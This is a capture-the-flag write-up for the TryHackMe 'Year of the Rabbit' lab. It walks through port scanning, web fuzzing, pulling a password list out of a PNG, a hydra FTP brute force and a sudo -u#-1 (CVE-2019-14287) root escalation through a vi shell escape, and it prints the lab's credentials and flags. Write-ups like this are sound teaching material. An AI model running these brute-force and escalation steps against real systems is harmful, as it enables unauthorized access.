

# Year of the Rabbit



## Port Scan

As usual, we run Rustscan to discover all open ports.

```bash
└─$ rustscan -a yearoftherabbit.thm --ulimit 5000 -- -A --oN nmap.log
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:21
Open xx.xx.xxx.xxx:80
...
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.2
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAILCKdtvyy1FqH1gBS+POXpHMlDynp+m6Ewj2yoK2PJKJeQeO2yRty1/qcf0eAHJGRngc9+bRPYe4M518+7yBVdO2p8UbIItiGzQHEXJu0tGdhIxmpbTdCT6V8HqIDjzrq2OB/PmsjoApVHv9N5q1Mb2i9J9wcnzlorK03gJ9vpxAAAAFQDVV1vsKCWHW/gHLSdO40jzZKVoyQAAAIA9EgFqJeRxwuCjzhyeASUEe+Wz9PwQ4lJI6g1z/1XNnCKQ9O6SkL54oTkB30RbFXBT54s3a11e5ahKxtDp6u9yHfItFOYhBt424m14ks/MXkDYOR7y07FbBYP5WJWk0UiKdskRej9P79bUGrXIcHQj3c3HnwDfKDnflN56Fk9rIwAAAIBlt2RBJWg3ZUqbRSsdaW61ArR4YU7FVLDgU0pHAIF6eq2R6CCRDjtbHE4X5eW+jhi6XMLbRjik9XOK78r2qyQwvHADW1hSWF6FgfF2PF5JKnvPG3qF2aZ2iOj9BVmsS5MnwdSNBytRydx9QJiyaI4+HyOkwomj0SINqR9CxYLfRA==
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZyTWF65dczfLiKN0cNpHhm/nZ7FWafVaCf+Oxu7+9VM4GBO/8eWI5CedcIDkhU3Li/XBDUSELLXSRJOtQj5WdBOrFVBWWA3b3ICQqk0N1cmldVJRLoP1shBm/U5Xgs5QFx/0nvtXSGFwBGpfVKsiI/YBGrDkgJNAYdgWOzcQqol/nnam8EpPx0nZ6+c2ckqRCizDuqHXkNN/HVjpH0GhiscE6S6ULvq2bbf7ULjvWbrSAMEo6ENsy3RMEcQX+Ixxr0TQjKdjW+QdLay0sR7oIiATh5AL5vBGHTk2uR8ypsz1y7cTyXG2BjIVpNWeTzcip7a2/HYNNSJ1Y5QmAXoKd
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHKavguvzBa889jvV30DH4fhXzMcLv6VdHFx3FVcAE0MqHRcLIyZcLcg6Rf0TNOhMQuu7Cut4Bf6SQseNVNJKK8=
|   256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFBJPbfvzsYSbGxT7dwo158eVWRlfvXCxeOB4ypi9Hgh
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 3.10 - 3.13 (95%), Linux 5.4 (94%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

There are 3 opening ports, they are:

- Port `21`: FTP (vsftpd 3.0.2)
- Port `22`: SSH (OpenSSH 6.7p1)
- Port `80`: HTTP (Apache httpd 2.4.10)

## FTP

Sadly, FTP do not support anonymous login. We will come back later.

```bash
└─$ ftp anonymous@yearoftherabbit.thm
Connected to yearoftherabbit.thm.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed

```

## HTTP Web enumeration

As expected, we see an Apache2 page


Time to use FFUF to enumerate

```bash
└─$ ffuf -u http://yearoftherabbit.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://yearoftherabbit.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 284, Words: 20, Lines: 10, Duration: 104ms]
                        [Status: 200, Size: 7853, Words: 2862, Lines: 190, Duration: 104ms]
assets                  [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 103ms]
.hta                    [Status: 403, Size: 284, Words: 20, Lines: 10, Duration: 6290ms]
.htaccess               [Status: 403, Size: 284, Words: 20, Lines: 10, Duration: 756ms]
index.html              [Status: 200, Size: 7853, Words: 2862, Lines: 190, Duration: 105ms]
server-status           [Status: 403, Size: 284, Words: 20, Lines: 10, Duration: 104ms]
:: Progress: [4614/4614] :: Job [1/1] :: 380 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

We saw there is a `assets` directory, within it is a Rickroll and a CSS file


The Rickroll mp4 seems to contain no useful metadata or information.

However, when I look more closely at the CSS, I see a comment that reveals `sup3r_s3cr3t_fl4g.php`.


## HTTP Redirection

When I arrived at the PHP file, I saw a notification telling me to turn off JavaScript


So I did…


Welp, and then I got redirected and rickrolled again.


At that point, I was thinking there must be something worth looking into during the redirection. 

So I use Caido to intercept the web requests, and found the hidden directory `WExYY2Cv-qU/`


## PNG Analysis

This time, we got a PNG file in the hidden Directory


Here is the PNG image


All I can do is to analyze the image file, and I knew what I had to do when I saw `Trailer data after PNG IEND chunk`

```bash
└─$ file Hot_Babe.png                                                                                                                                                                                                                      
Hot_Babe.png: PNG image data, 512 x 512, 8-bit/color RGB, non-interlaced

└─$ exiftool Hot_Babe.png                                                                                                                                                                                                                  
ExifTool Version Number         : 13.50
File Name                       : Hot_Babe.png
Directory                       : .
File Size                       : 475 kB
File Modification Date/Time     : 2020:01:23 08:34:32+08:00
File Access Date/Time           : 2026:05:31 17:17:02+08:00
File Inode Change Date/Time     : 2026:05:31 17:17:01+08:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 512
Image Height                    : 512
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Warning                         : [minor] Trailer data after PNG IEND chunk
Image Size                      : 512x512
Megapixels                      : 0.262

```

When I open up Ghex, I saw there is a bunch of text, telling me something related to FTP


## FTP Password Brute Force

After extracting the text, it seems we need to bruteforce the password of `ftpuser`.

```bash
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

So I use hydra to find the password

```bash
─$ hydra -l ftpuser -P password.txt yearoftherabbit.thm ftp -f -vV
....
[DATA] attacking ftp://yearoftherabbit.thm:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "Mou+56n%QK8sr" - 1 of 82 [child 0] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "1618B0AUshw1M" - 2 of 82 [child 1] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "A56IpIl%1s02u" - 3 of 82 [child 2] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "vTFbDzX9&Nmu?" - 4 of 82 [child 3] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "FfF~sfu^UQZmT" - 5 of 82 [child 4] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "8FF?iKO27b~V0" - 6 of 82 [child 5] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "ua4W~2-@y7dE$" - 7 of 82 [child 6] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "3j39aMQQ7xFXT" - 8 of 82 [child 7] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "Wb4--CTc4ww*-" - 9 of 82 [child 8] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "u6oY9?nHv84D&" - 10 of 82 [child 9] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "0iBp4W69Gr_Yf" - 11 of 82 [child 10] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "TS*%miyPsGV54" - 12 of 82 [child 11] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "C77O3FIy0c0sd" - 13 of 82 [child 12] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "O14xEhgg0Hxz1" - 14 of 82 [child 13] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "5dpv#Pr$wqH7F" - 15 of 82 [child 14] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "1G8Ucoce1+gS5" - 16 of 82 [child 15] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "0plnI%f0~Jw71" - 17 of 82 [child 2] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "0kLoLzfhqq8u&" - 18 of 82 [child 3] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "kS9pn5yiFGj6d" - 19 of 82 [child 8] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "zeff4#!b5Ib_n" - 20 of 82 [child 0] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "rNT4E4SHDGBkl" - 21 of 82 [child 1] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "KKH5zy23+S0@B" - 22 of 82 [child 4] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "3r6PHtM4NzJjE" - 23 of 82 [child 5] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "gm0!!EC1A0I2?" - 24 of 82 [child 6] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "HPHr!j00RaDEi" - 25 of 82 [child 7] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "7N+J9BYSp4uaY" - 26 of 82 [child 9] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "PYKt-ebvtmWoC" - 27 of 82 [child 10] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "3TN%cD_E6zm*s" - 28 of 82 [child 11] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "eo?@c!ly3&=0Z" - 29 of 82 [child 12] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "nR8&FXz$ZPelN" - 30 of 82 [child 13] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "eE4Mu53UkKHx#" - 31 of 82 [child 14] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "86?004F9!o49d" - 32 of 82 [child 15] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "SNGY0JjA5@0EE" - 33 of 82 [child 2] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "trm64++JZ7R6E" - 34 of 82 [child 3] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "3zJuGL~8KmiK^" - 35 of 82 [child 8] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "CR-ItthsH%9du" - 36 of 82 [child 0] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "yP9kft386bB8G" - 37 of 82 [child 1] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "A-*eE3L@!4W5o" - 38 of 82 [child 4] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "GoM^$82l&GA5D" - 39 of 82 [child 12] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "1t$4$g$I+V_BH" - 40 of 82 [child 11] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "0XxpTd90Vt8OL" - 41 of 82 [child 13] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "j0CN?Z#8Bp69_" - 42 of 82 [child 6] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "G#h~9@5E5QA5l" - 43 of 82 [child 10] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "DRWNM7auXF7@j" - 44 of 82 [child 14] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "Fw!if_=kk7Oqz" - 45 of 82 [child 5] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "92d5r$uyw!vaE" - 46 of 82 [child 7] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "c-AA7a2u!W2*?" - 47 of 82 [child 9] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "zy8z3kBi#2e36" - 48 of 82 [child 15] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "J5%2Hn+7I6QLt" - 49 of 82 [child 2] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "gL$2fmgnq8vI*" - 50 of 82 [child 3] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "Etb?i?Kj4R=QM" - 51 of 82 [child 8] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "7CabD7kwY7=ri" - 52 of 82 [child 1] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "4uaIRX~-cY6K4" - 53 of 82 [child 4] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "kY1oxscv4EB2d" - 54 of 82 [child 11] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "k32?3^x1ex7#o" - 55 of 82 [child 12] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "ep4IPQ_=ku@V8" - 56 of 82 [child 13] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "tQxFJ909rd1y2" - 57 of 82 [child 0] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "5L6kpPR5E2Msn" - 58 of 82 [child 6] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "65NX66Wv~oFP2" - 59 of 82 [child 10] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "LRAQ@zcBphn!1" - 60 of 82 [child 14] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "V4bt3*58Z32Xe" - 61 of 82 [child 5] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "ki^t!+uqB?DyI" - 62 of 82 [child 7] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "5iez1wGXKfPKQ" - 63 of 82 [child 9] (0/0)
[ATTEMPT] target yearoftherabbit.thm - login "ftpuser" - pass "nJ90XzX&AnF5v" - 64 of 82 [child 15] (0/0)
[21][ftp] host: yearoftherabbit.thm   login: ftpuser   password: 5iez1wGXKfPKQ
[STATUS] attack finished for yearoftherabbit.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

So now, we know the credentials are `ftpuser:5iez1wGXKfPKQ`

## Revisit FTP

With this, we can revisit FTP

```bash
└─$ ftp ftpuser@yearoftherabbit.thm
Connected to yearoftherabbit.thm.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55935|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||25670|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |**********************************************************************************************************************************************************************************************|   758       11.29 MiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (6.81 KiB/s)

```

We obtain `Eli's_Creds.txt`

## Obtaining Eli’s Credentials

Reading the file will show symbols that seems to be jsfuck

```bash
└─$ cat Eli\'s_Creds.txt                                                                                                                                                                                                                   
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

```

After some research, I finally realize it is brainfuck, which can be decoded using [dcode.fr]([https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language))


With this, we can finally get the SSH credentials

```bash
User: eli
Password: DSpDiM1wAEwid
```

## User Flag?

We can now login and get user flag:)

```bash
└─$ ssh eli@yearoftherabbit.thm                                                                                                                                                                                                            
...
eli@yearoftherabbit.thm's password: 

1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

it seems that the flag is in `gwendoline`’s home directory

```bash
eli@year-of-the-rabbit:~$ id
uid=1000(eli) gid=1000(eli) groups=1000(eli),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),119(bluetooth)
eli@year-of-the-rabbit:~$ ls -la
total 656
drwxr-xr-x 16 eli  eli    4096 Jan 23  2020 .
drwxr-xr-x  4 root root   4096 Jan 23  2020 ..
lrwxrwxrwx  1 eli  eli       9 Jan 23  2020 .bash_history -> /dev/null
-rw-r--r--  1 eli  eli     220 Jan 23  2020 .bash_logout
-rw-r--r--  1 eli  eli    3515 Jan 23  2020 .bashrc
drwxr-xr-x  8 eli  eli    4096 Jan 23  2020 .cache
drwx------ 11 eli  eli    4096 Jan 23  2020 .config
-rw-------  1 eli  eli  589824 Jan 23  2020 core
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Desktop
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Documents
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Downloads
drwx------  3 eli  eli    4096 Jan 23  2020 .gconf
drwx------  2 eli  eli    4096 Jan 23  2020 .gnupg
-rw-------  1 eli  eli    1098 Jan 23  2020 .ICEauthority
drwx------  3 eli  eli    4096 Jan 23  2020 .local
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Music
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Pictures
-rw-r--r--  1 eli  eli     675 Jan 23  2020 .profile
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Public
drwx------  2 eli  eli    4096 Jan 23  2020 .ssh
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Templates
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Videos
eli@year-of-the-rabbit:~$ cd ..
eli@year-of-the-rabbit:/home$ ls
eli  gwendoline
eli@year-of-the-rabbit:/home$ cd gwendoline/
eli@year-of-the-rabbit:/home/gwendoline$ ls -la
total 24
drwxr-xr-x 2 gwendoline gwendoline 4096 Jan 23  2020 .
drwxr-xr-x 4 root       root       4096 Jan 23  2020 ..
lrwxrwxrwx 1 root       root          9 Jan 23  2020 .bash_history -> /dev/null
-rw-r--r-- 1 gwendoline gwendoline  220 Jan 23  2020 .bash_logout
-rw-r--r-- 1 gwendoline gwendoline 3515 Jan 23  2020 .bashrc
-rw-r--r-- 1 gwendoline gwendoline  675 Jan 23  2020 .profile
-r--r----- 1 gwendoline gwendoline   46 Jan 23  2020 user.txt
eli@year-of-the-rabbit:/home/gwendoline$ cat user.txt
cat: user.txt: Permission denied
```

## Lateral Movement

Welp, I guess we really need to read the message:(

```bash
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

```

So there is a `s3cr3t` directory? Let’s find out

```bash
eli@year-of-the-rabbit:/home/gwendoline$ find / -type d -name s3cr3t 2> /dev/null
/usr/games/s3cr3t
```

Within it is a hidden file

```bash
eli@year-of-the-rabbit:/home/gwendoline$ ls -la /usr/games/s3cr3t
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/home/gwendoline$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root

```

Nice, now we can log in as `gwendoline` and read the user flag.

```bash
└─$ ssh gwendoline@yearoftherabbit.thm
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
gwendoline@yearoftherabbit.thm's password: 

1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

gwendoline@year-of-the-rabbit:~$ cat user.txt
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

User Flag: `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`

## Privilege Escalation

Previously, I checked that `eli` belongs to many groups, yet she does not have any `sudo` privileges.

However, this time, `gwendoline` can execute `/usr/bin/vi /home/gwendoline/user.txt` using `sudo`

```bash
gwendoline@year-of-the-rabbit:/$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

```

I already know that [vi is exploitable]([https://gtfobins.org/gtfobins/vi/](https://gtfobins.org/gtfobins/vi/)), but I was not allowed to use `sudo` as root.

So all I can do is search for [Writeup](https://cloufish.github.io/blog/posts/Year_Of_The_Rabbit/), which explains things clearly.

To explain, we first need to understand that we can specify the user with `sudo` using `-u`. To specify using the user ID, we can add the prefix `#`.

The [CVE]([https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/](https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/))  states that if we use `-u#-1`, `sudo` cannot parse correctly and will run as root, despite the above NOPASSWD entry forbidding it.

Having that in mind, we can finally use the `vi` trick. In `vi`, use `:!/bin/bash`, and we can escalate to get the root flag.

```bash
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

root@year-of-the-rabbit:/home/gwendoline# whoami
root
root@year-of-the-rabbit:/home/gwendoline# cd /root
root@year-of-the-rabbit:/root# ls
root.txt
root@year-of-the-rabbit:/root# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```

Root Flag: `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`
